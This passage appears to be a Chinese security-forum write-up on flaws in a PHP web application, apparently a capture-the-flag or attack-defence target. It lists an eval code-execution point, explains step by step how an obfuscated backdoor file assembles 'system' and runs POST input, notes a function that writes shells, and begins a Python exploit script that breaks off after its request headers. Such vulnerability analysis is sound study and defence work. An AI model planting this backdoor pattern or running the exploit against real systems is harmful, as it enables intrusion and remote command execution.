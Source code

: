 ![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-e535fbe3dff148c101b376954b5b83db9e39f603.png)  
从源码上可以看到是设置覆盖默认的。文件：`app\admin\controller\Upload.php`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-e77f3e8350b2878d34a7a180bbd06400676948aa.png)

#### 漏洞点2：代码执行漏洞

`app\index\controller\Form.php`该文件存在 eval 代码执行函数。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-3a808c22fb432f7930911276fa4a757043a8dc27.png)

#### 漏洞点3：后门

`public\uploads\admin\201910\this_is_big.php`这个文件结构简单，是一个后门文件。

1. a = substr\_replace("xxser","syste",-3); 将字符串 "xxser" 中的最后三个字符 "ser" 替换为 "syste"，结果是 a = "xxsystem".
2. aa = array('',a); 创建一个数组，包含两个元素 '' 和 $a.
3. b = aa\[1\].chr('109'); 将数组中第二个元素 a 和 ASCII 码为 109 的字符 m 拼接在一起，结果是 b = "xxsystemm".
4. fun=preg\_replace("/xx/","",b); 将字符串 b 中的所有 xx 替换为空字符串 ""，结果是 fun = "systemm".
5. cc = substr\_replace("",fun,0); 将空字符串 "" 中的所有字符都替换为 fun，结果是 cc = "systemm".
6. cc(\_POST\['x'\]); 执行 cc 中存储的函数，将用户提交的数据 \_POST\['x'\] 作为参数传递给该函数。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-5bf4b6ce09b497116ff8e104db820dff381c009a.png)

#### 漏洞点4：生成Shell

`app\index\controller\index.php` 这个文件里有个 shell 函数，它会生成后门文件。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-4f4218c3e8af9b196593872e9fe6b4ff9d73323f.png)  
这里直接用360杀毒都能扫描出来，当然也可以使用D盾、河马WebShell效果差不多。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-002019eadf622b39238b95f90e2e870ff2816464.png)

### EXP编写

#### EXP1：代码执行漏洞

```python
import sys
import requests

try:
    HOST = sys.argv[1]
    PORT = sys.argv[2]
except:
    pass

url = f"http://{HOST}:{PORT}/index/form/index"
headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'none',
    'Sec-Fetch-User': '?1',
    'Content-Type': 'application/x-www-form-urlencoded'
}

```